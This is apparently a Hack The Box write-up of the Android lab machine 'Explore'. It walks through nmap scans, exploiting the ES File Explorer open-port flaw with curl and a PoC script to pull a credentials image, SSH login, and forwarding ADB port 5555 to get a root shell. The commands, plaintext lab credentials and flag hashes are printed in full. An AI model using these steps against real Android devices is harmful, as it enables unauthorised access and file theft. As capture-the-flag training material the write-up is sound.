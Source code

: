 ```yaml
---
title: Explore - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-07-12
image: images/explore_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```




   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. [root:~]# nmap -Pn -n -sCV --open 10.10.10.247
    PORT     STATE SERVICE VERSION
    2222/tcp open  ssh     (protocol 2.0)
    | fingerprint-strings:
    |   NULL:
    |_    SSH-2.0-SSH Server - Banana Studio
    | ssh-hostkey:
    |_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
    1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
    SF-Port2222-TCP:V=7.91%I=7%D=7/12%Time=60EC0C84%P=x86_64-pc-linux-gnu%r(NU
    SF:LL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");

  [root:~]# nmap -p- --open 10.10.10.247
    PORT      STATE SERVICE
    2222/tcp  open  EtherNetIP-1
    42135/tcp open  unknown
    46285/tcp open  unknown
    59777/tcp open  unknown

  [root:~]# nmap -sU --open 10.10.10.247
    PORT     STATE         SERVICE
    1900/udp open|filtered upnp
    5353/udp open|filtered zeroconf

2. Googling about the unknown ports we quickly discover that 42135 & 59777 = ES File Explorer - which fits the name of the box.

There are numerous vulns out there for ES File Explorer, even a MSF module, however firing them off the shelf gives me response
500 error. After wasting a good amount of time with this error, I found that this is unintended and you should restart the box
until it works.

  [root:/git/htb/explore]# curl --header "Content-Type: application/json" --request POST --data "{"command":getDeviceInfo}" http://10.10.10.247:59777 -vvv
    Note: Unnecessary use of -X or --request, POST is already inferred.
    *   Trying 10.10.10.247:59777...
    * Connected to 10.10.10.247 (10.10.10.247) port 59777 (#0)
    > POST / HTTP/1.1
    > Host: 10.10.10.247:59777
    > User-Agent: curl/7.74.0
    > Accept: */*
    > Content-Type: application/json
    > Content-Length: 23
    >
    * upload completely sent off: 23 out of 23 bytes
    * Mark bundle as not supporting multiuse
    * HTTP 1.0, assume close after body
    < HTTP/1.0 200 OK
    < Content-Type: text/plain
    < Date: Mon, 12 Jul 2021 08:47:41 GMT
    < Content-Length: 73
    <
    * Closing connection 0
    {"name":"VMware Virtual Platform", "ftpRoot":"/sdcard", "ftpPort":"3721"}

The vulnerability now works, to automate the process download a poc script and go at it.

  [root:/git/htb/explore]# python3 rce.py --cmd listPics --ip 10.10.10.247                                                          (master✱)
    [*] Executing command: listPics on 10.10.10.247
    [*] Server responded with: 200

    {"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
    {"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
    {"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
    {"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}

'creds.jpg' sounds like a great picture, download it.

  [root:/git/htb/explore]# python3 rce.py --get-file /storage/emulated/0/DCIM/creds.jpg --ip 10.10.10.247                           (master✱)
    [*] Getting file: /storage/emulated/0/DCIM/creds.jpg
    	from: 10.10.10.247
    [*] Server responded with: 200
    [*] Writing to file: creds.jpg

CREDS = kristi:Kr1sT!5h@Rp3xPl0r3!


3. Login with SSH and grab user.txt

  [root:~]# ssh kristi@10.10.10.247 -p 2222
    Password authentication
    Password:
    :/ $ id
      uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
    :/ $ cd sdcard
    :/sdcard $ cat user.txt
      f32017174c7c7e8f50c6da52891ae250


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Looking on running port we find that 5555 is open locally. Reading about Android port 5555 we find that it's used for
   Android Debug Bridge. ADB has an exploit where we can connect to it locally and get a root shell, sounds good!

  :/sdcard $ netstat -antup
    Active Internet connections (established and servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program Name
    ..
    tcp6       0      0 :::5555                 :::*                    LISTEN      -


  [root:~]# ssh -p 2222 -L 5555:localhost:5555 kristi@10.10.10.247
  [root:/opt/scanners/linux]# adb connect localhost:5555
    connected to localhost:5555
  [root:/opt/scanners/linux]# adb devices
    List of devices attached
    emulator-5554	device
    localhost:5555	device
  [root:/opt/scanners/linux]# adb -s localhost:5555 shell
    x86_64:/ $ id
      uid=2000(shell) gid=2000(shell) groups=2000(shell),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:shell:s0
    x86_64:/ $ exit

  [root:/opt/scanners/linux]# adb root
    restarting adbd as root
  [root:/opt/scanners/linux]# adb -s localhost:5555 shell
    x86_64:/ # id
      uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc),3011(uhid) context=u:r:su:s0
    x86_64:/ # find -L /data -name "root.txt" 2>/dev/null
      /data/root.txt
    x86_64:/ # cat data/root.txt
      f04fc82b6d49b41c9b08982be59338c5


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Android Open Ports:
  https://www.ndss-symposium.org/wp-content/uploads/2019/02/ndss2019_06B-5_Wu_paper.pdf

ES File Explorer Vuln POC:
  https://github.com/fs0c131y/ESFileExplorerOpenPortVuln

ADB Exploit:
  https://allhacked.com/exploiting-android-through-adb/
  https://stackoverflow.com/questions/14654718/how-to-use-adb-shell-when-multiple-devices-are-connected-fails-with-error-mor
  https://www.remosoftware.com/info/how-to-root-an-android-phone

Find Command in Linux:
  https://www.linode.com/docs/guides/find-files-in-linux-using-the-command-line/
